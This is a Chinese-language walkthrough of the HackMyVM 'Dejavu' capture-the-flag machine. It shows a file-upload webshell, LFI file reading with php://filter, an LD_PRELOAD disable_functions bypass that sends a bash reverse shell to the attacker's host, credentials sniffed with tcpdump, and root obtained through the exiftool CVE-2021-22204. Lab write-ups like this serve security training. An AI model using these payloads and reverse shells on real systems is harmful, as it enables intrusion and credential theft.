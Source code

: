 # Dejavu

2025.02.11 https://hackmyvm.eu/machines/machine.php?vm=Dejavu

[video](https://www.bilibili.com/video/BV1EpNBegEuW/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问 80 web ，gobuster 发现 http://192.168.5.39/info.php 是一个 phpinfo 页面，查看其源码，发现注释：/S3cR3t，访问后是一个文件上传页面 http://192.168.5.39/S3cR3t/upload.php

可能有任意文件上传漏洞，进行尝试，上传图片，发现上传后的图片出现在同目录 files 中 http://192.168.5.39/S3cR3t/files/1.png

发现上传后缀名为 php3、php4、php5、.htaccess 等都不行，但是 phtml 的后缀可以上传。在 http://192.168.5.39/info.php 中查看到 disable_functions 把基本的命令执行参数禁用了。

尝试将上传的内容改成 `<?php include($_GET[1]);?>` 发现可以执行 LFI，并且在 info.php 中显示了 info 文件的路径: `/var/www/html/.HowToEliminateTheTenMostCriticalInternetSecurityThreats/info.php`, 使用 filter 进行读取：

```
curl -O- http://192.168.5.39/S3cR3t/files/2.png.phtml?1=php://filter/read=convert.base64-encode/resource=/var/www/html/.HowToEliminateTheTenMostCriticalInternetSecurityThreats/info.php

# base64 解码后为
<html>
<body>
<!-- /S3cR3t -->
</body>
</html>
<?php
phpinfo();
?>
```

```
curl -o- http://192.168.5.39/S3cR3t/files/2.png.phtml?1=php://filter/read=convert.base64-encode/resource=/var/www/html/.HowToEliminateTheTenMostCriticalInternetSecurityThreats/S3cR3t/upload.php | base64 -d

<?php
  if(!empty($_FILES['uploaded_file']))
  {
    $path = "files/";
    $path = $path . basename( $_FILES['uploaded_file']['name']);
    $imageFileType = strtolower(pathinfo($path,PATHINFO_EXTENSION));
    $uploadOk = 1;
    // Allow certain file formats
    if($imageFileType != "jpg" && $imageFileType != "png" && $imageFileType != "jpeg" && $imageFileType != "gif" && $imageFileType != "txt" && $imageFileType != "phtml" && $imageFileType != "aspx") {
      echo nl2br("\nThis extension is not allowed.");
    $uploadOk = 0;
    }
    // Check if $uploadOk is set to 0 by an error
    if ($uploadOk == 0) {
      echo " Sorry, your file was not uploaded.";
    // if everything is ok, try to upload file
    } else {
      if(move_uploaded_file($_FILES['uploaded_file']['tmp_name'], $path)) {
        echo nl2br("\nThe file ".  basename( $_FILES['uploaded_file']['name']). " has been uploaded.");
      } else{
          echo "There was an error uploading the file, please try again!";
      }
    }
  }
?>
```

经过查询，发现未禁用 putenv 和 mail 函数，则可以利用 LD_PRELOAD 绕过 disable_functions，有现成的利用工具进行利用 https://github.com/kriss-u/chankro-py3 下载后执行:

```
echo '/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1' > 8888.sh
python3 chankro-py3-master/chankro.py --arch 64 --input 8888.sh --output shell.phtml --path /var/www/html
```

然后将生成的 shell.phtml 上传，在 kali 上建立 8888 监听，然后访问 http://192.168.5.39/S3cR3t/files/shell.phtml 就得到了反弹的链接:

```
<nMostCriticalInternetSecurityThreats/S3cR3t/files$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

得到 shell 后，sudo -l 发现: (robert) NOPASSWD: /usr/sbin/tcpdump 尝试用它提权到 robert，但是不成功，出现报错：

```
COMMAND='/bin/bash';TF=$(mktemp);echo "$COMMAND" > $TF;chmod +x $TF
sudo -u robert /usr/sbin/tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF
```

ss -tnlp 发现本地启用了 21 ftp，看看里面有什么，匿名无法登陆，同时在 robet 家目录下，发现一个 auth.sh 文件，但是无法查看其内容，看名字像是跟认证有关系，那就尝试用 tcpdump 监听下 21 端口，看看会不会有显示：

```
cd /tmp
tcpdump -i lo port ftp

1分钟后显示：
FTP: USER robert
FTP: PASS 9737bo0hFx4
```

应该是一个定时任务，在一直访问 21 端口。使用得到的 robert 凭据，尝试登陆 ssh，看是否有密码复用的情况：

```
ssh robert@192.168.5.39 输入密码: 9737bo0hFx4
```

得到了 user flag：

```
robert@dejavu:~$ cat user.txt
HMV{c8b75037150fbdc49f6c941b72db0d7c}
```

这里 auth.sh 确实是定时在执行：

```
crontab -l
* *	* * *	/home/robert/auth.sh

robert@dejavu:~$ cat auth.sh
ftp -n localhost <<FIN
quote USER robert
quote PASS 9737bo0hFx4
bye
FIN
```

sudo -l 发现: (root) NOPASSWD: /usr/local/bin/exiftool GTFOBin 中显示可以读取文件，但是不知道 root 目录中的 root.txt 的具体名字，下面的读取方法不对：

```
sudo exiftool -filename=/tmp/root.txt /root/root.txt
```

搜索 exiftool 有没有其他的漏洞可以利用，找到 https://github.com/convisolabs/CVE-2021-22204-exiftool 下载其中的 python 脚本 https://github.com/convisolabs/CVE-2021-22204-exiftool/blob/master/exploit.py 到目标机器上，然后修改其中的 Ip 和 port 为 kali 上的监听端口，然后执行：

```
cd /tmp
python3 exp.py
sudo exiftool -u root exiftool ./exploit.djvu
```

在反弹的链接上得到了 root 权限：

```
# cat r0ot.tXt
HMV{c62d75d636f66450980dca2c4a3457d8}
```
